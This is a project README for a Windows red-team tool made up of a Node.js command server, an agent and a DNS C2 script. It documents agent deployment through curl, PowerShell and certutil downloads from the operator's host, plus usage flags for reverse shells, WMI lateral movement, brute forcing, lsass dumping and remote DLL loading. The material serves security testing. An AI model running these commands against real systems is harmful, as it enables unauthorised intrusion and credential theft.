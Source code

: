 [![GPLv3 license](https://img.shields.io/badge/License-GPLv3-blue.svg)](http://perso.crans.org/besson/LICENSE.html)
[<img src="https://img.shields.io/badge/join-telegram-blue">](https://t.me/join0xsp)
[<img src="https://img.shields.io/badge/build%20with-Lazarus-red.svg">](https://www.lazarus-ide.org/)
[<img align="right" src="https://github.com/lawrenceamer/0xsp-Mongoose/blob/0xsp-red/lg.png?raw=true" height="512" width="400">]()
[<img src="https://img.shields.io/badge/join-discord-orange">](https://discord.gg/Xsdxxkm)
[<img src="https://img.shields.io/twitter/follow/zux0x3a?label=follow&style=social">](https://twitter.com/zux0x3a)

Support the project for continuous development (ETH **0xf340c15c5e669a4ababab856e9f2bccd659d6e42**)

# 0xsp Mongoose RED for Windows 
Current Release **2.2.0** 

0xsp mongoose red version is provided to assist your needs during cyber security simulation, by using this version you will be able to audit a targeted windows operation system 
for system vulnerabilities, misconfigurations and privilege escalation attacks and replicate the tactics and techniques of an advanced adversary in a network.

with node js support for web application API, it becomes much easier for installation and customization in timely manner, the windows sensor agent will communicate with application API to transfer results, and receive commands as bidirectional technique. 

the agent is able to identify and detect windows exploits by using `windows update api` and `exploit database definitions` modules, the new release will detect also the following 
vulnerabilities.
 
* CVE-2019-0836
* CVE-2019-0841
* CVE-2019-1064
* CVE-2019-1130
* CVE-2019-1253
* CVE-2019-1385
* CVE-2019-1388
* CVE-2019-1405
* CVE-2019-1315
* CVE-2020-0787
* CVE-2020-0796
* CVE-2020-0797 
* CVE-2020-1472

## Features 

* Windows Privilege escalation scanning techniques. 
* web application built with NodeJS 
* supports sqlite DB 
* Lateral movements techniques. [ video](https://www.youtube.com/watch?v=pEpiOrpyYs8)
* Bidirectional communication channel.[ video ](https://www.youtube.com/watch?v=tyhBuWCB_aY)
* Plugins online packaging.  
* Enhanced exploit detecter scripting engine. 
* Windows Account Bruteforce Module (Local / Domain)
* weaponization of run-as-user windows api function. [Video](https://youtu.be/oe-BFZpV8nw)
* local network scanning and shares enumeration.
* lsass memory dummping technique (plugin).
* DNS C2C interactive shellmode 

### installation 

```
git clone --single-branch --branch 0xsp-red https://github.com/lawrenceamer/0xsp-mongoose 
cd 0xsp-mongoose/ 
npm install 
node index.js
```
default access credentials :
* username : admin 
* password : 0xsp

[<img align="right" src="https://i.imgur.com/EQOsiv8.png">]()



### DNS C2C python script 

```
touch temp.txt
python3 dns_server.py -d DOMAIN -a PUBLICIP -i INTERFACEIP
```


### quick deploy of agent 

```
#example 1 
curl.exe -o agent.exe http://nodejsip:4000/release/x64.exe
#example 2 
powershell.exe -command (new-object net.webclient).downloadfile('http://nodejsip:4000/release/x64.exe','c:\tmp\agent.exe');
#example 3 
certutil.exe -urlcache -split -f "http://nodejsip:4000/release/x64.exe" agent.exe

```


### Usage 
```
-s --retrieve windows services and installed drivers.
-u --retrieve information about Users, groups, roles.
-c --search connected drivers for senstive config files by extension.
-n --retrieve network information,network interfaces, connection details.
-w --enumerate for writeable directories, access permission Check, modified permissions.
-i --enumerate windows system information, Sessions, Always elvated check.
-l --search in any file for specific string , ex : agent.exe -l c:\ password *.config.
-o --specify host address of nodejs application , you can use srvhost also
-p --enumerate installed Softwares, Running Processes, Tasks.
-e --kernel inspection Tool, it will help to search through tool databases for windows kernel vulnerabilities
-x --password to authorize your connection with node js application.
-d --download Files directly into target machine.
-t --upload Files From target machine into node js application.
-m --run all known scan Types together.

[!] RED TEAMING TACTICS SECTION

-r --spawn a reverse shell with specific account.
-lr --Lateral movement technique using WMI (e.g -lr -host 192.168.14.1 -username administrator -password blabla -srvhost nodejsip )
-nds --network discovery and share enumeration
-dns --establish interactive dns C2C shell
-cmd --transfer commands via HTTP Shell
-interactive --starting interactive mode (eg : loading plugins ..etc)
-username --identity authentication for specific attack modules.
-password --identity authentication for specific attack modules.
-host --identify remote host to conduct an attack to.
-srvhost --set rhost of node js application.
-bf --local users / domain users bruteforce module
-import --import and execute dll file locally
-remote --import and execute dll file from remote host
```
### Documentations
https://0xsp.com/security%20dev/0xsp-mongoose-red

### detailed research site 
https://0xsp.com 

### Security Conferences 
* Standoff365 - Russia (https://standoff365.com/conferences/357)

### contribution 
0xsp community would like to send much thanks for the following people who have contributed to make this project awesome  

* Abboud Dokarli ( Web application API and interface ) @abbddkr

### tool tutorials 
make sure to subscribe into the following channel to be notified when new tutorial and tricks published for 0xsp 
https://www.youtube.com/channel/UCoEr6Qsyd6oMsPmaJPQ_FOg


